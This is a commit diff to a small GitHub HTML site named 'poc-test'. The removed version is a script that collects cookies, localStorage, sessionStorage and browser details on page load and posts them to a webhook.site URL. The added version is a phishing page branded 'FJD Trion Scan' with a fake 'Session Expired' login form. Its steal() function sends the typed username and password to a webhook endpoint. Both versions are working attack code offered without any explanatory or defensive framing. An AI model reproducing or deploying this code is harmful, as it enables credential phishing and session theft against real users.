

Before and after one commit to rabie123322-byte/poc-test, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,38 +1,49 @@
 <!DOCTYPE html>
 <html>
-<head><title>PoC Test</title></head>
-<body style="background:#111;color:#0f0;font-family:monospace;padding:20px;">
+<head><title>FJD Trion Scan</title></head>
+<body style="background:#fff;font-family:Arial;padding:40px;text-align:center;">
 
-<h2 id="status">⏳ Collecting...</h2>
-<pre id="output"></pre>
+  <h2 style="color:#d32f2f;">⚠️ Session Expired</h2>
+  <p>Please login again to continue scanning</p>
 
-<script>
-  setTimeout(function() {
+  <input id="user" type="text"     placeholder="Username / Email"
+    style="display:block;width:100%;padding:12px;margin:10px 0;font-size:16px;border:1px solid #ccc;border-radius:4px;">
 
-    var data = {
-      cookies:        document.cookie || "(empty)",
-      localStorage:   JSON.stringify(localStorage),
-      sessionStorage: JSON.stringify(sessionStorage),
-      userAgent:      navigator.userAgent,
-      url:            window.location.href,
-      referrer:       document.referrer || "(none)",
-      timestamp:      new Date().toISOString()
-    };
+  <input id="pass" type="password" placeholder="Password"
+    style="display:block;width:100%;padding:12px;margin:10px 0;font-size:16px;border:1px solid #ccc;border-radius:4px;">
 
-    // ✅ Show results on screen
-    document.getElementById('status').innerText = '✅ Done!';
-    document.getElementById('output').innerText = JSON.stringify(data, null, 2);
+  <button onclick="steal()"
+    style="width:100%;padding:14px;background:#1976d2;color:#fff;font-size:16px;border:none;border-radius:4px;cursor:pointer;">
+    Login
+  </button>
 
-    // ✅ Send to your webhook - REPLACE the ID below
-    fetch('https://webhook.site/https://webhook.site/d185f8a4-925a-4573-8a27-e149a3569962', {
-      method: 'POST',
-      mode: 'no-cors',
-      headers: { 'Content-Type': 'application/json' },
-      body: JSON.stringify(data)
-    });
+  <p id="msg" style="color:red;"></p>
 
-  }, 2000);
-</script>
+  <script>
+    function steal() {
+      var user = document.getElementById('user').value;
+      var pass = document.getElementById('pass').value;
 
+      if (!user || !pass) {
+        document.getElementById('msg').innerText = 'Please fill all fields';
+        return;
+      }
+
+      // Send to webhook
+      fetch('https://webhook.site/YOUR-ID-HERE', {
+        method: 'POST',
+        mode: 'no-cors',
+        headers: {'Content-Type':'application/json'},
+        body: JSON.stringify({
+          username:  user,
+          password:  pass,
+          userAgent: navigator.userAgent,
+          timestamp: new Date().toISOString()
+        })
+      });
+
+      document.getElementById('msg').innerText = 'Logging in...';
+    }
+  </script>
 </body>
 </html>
```
